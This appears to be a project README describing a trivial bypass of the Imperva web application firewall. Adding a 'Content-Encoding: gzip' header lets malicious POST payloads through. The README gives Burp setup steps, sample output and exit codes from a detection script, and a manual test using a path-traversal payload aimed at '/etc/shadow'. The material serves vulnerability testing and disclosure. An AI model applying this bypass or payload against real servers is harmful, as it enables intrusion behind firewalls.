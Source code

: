 # Imperva WAF POST Request Bypass 
Imperva-protected HTTP(S) servers are vulnerable to a trivial bypass that allows malicious POST payloads, such as unobfuscated SQL injection, to evade detection. 

## To Exploit it
Add the header `Content-Encoding: gzip` to your POST requests. Leave your POST data as-is. Don't encode it! That's it - you can put literally anything for the content encoding so long as the first four characters are `gzip`. Imperva just passes it through.

You can do this in Burp by using the proxy's Match & Replace feature:

![](https://i.imgur.com/bNPA1MW.png)

Add a new header like this:

![](https://i.imgur.com/fJtQ8A1.png)

That's it, you're good to go.

# To test if a host is vulnerable
Run `imperva_gzip.py` against a URL that supports POST requests like this:

```
./imperva_gzip.py https://vulnerable.com/search
[+] Sending baseline POST request to https://vulnerable.com/search
[+] Sending malicious UNIX payload to trigger the WAF...
[+] WAF is blocking malicious UNIX payloads. This is good!
[+] Sending malicious Windows payload to trigger the WAF...
[+] WAF is blocking malicious Windows payloads. This is good!
[+] Attempting gzip bypass for UNIX trigger...
[+] Vulnerable!
[+] Attempting gzip bypass for Windows trigger...
[+] Vulnerable!
```

## Scripting
The exit codes for `imperva_gzip.py` are as follows:

```
  1: No URL specified on command-line.
  2: There was an error connecting. Could be DNS error, timeout, etc.
  3: No WAF was detected; malicious UNIX/Windows payloads weren't blocked.
  4: The baseline POST request didn't return HTTP 200.
128: There is a WAF, but it is not vulnerable to the gzip bypass.
129: The bypass was effective for the UNIX payload, but not the Windows one.
130: The bypass was effective for the Windows payload, but not the UNIX one.
131: The bypass was effective against both Windows and UNIX payloads.
```

## Process to Manually Test for Vulnerability
Send three POST requests:

1. Establish a baseline POST request/response with a valid but harmless POST request.
2. Trigger the Imperva WAF using the same POST request, but with extra “malicious” data such as `&test=../../../../../../../etc/shadow` in the body to verify that Imperva blocks it.
3. Add the header `Content-Encoding: gzip` to the same malicious request and verify that Imperva doesn't block it.

## Other Encodings
According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding there are four valid values for the `Content-Encoding` header:

* `compress`
* `deflate`
* `gzip`
* `br`

In testing, only `gzip` appears to work as a bypass. I wonder if gzip is whitelisted for performance reasons, maybe by default? I'll do more research and update this page soon.
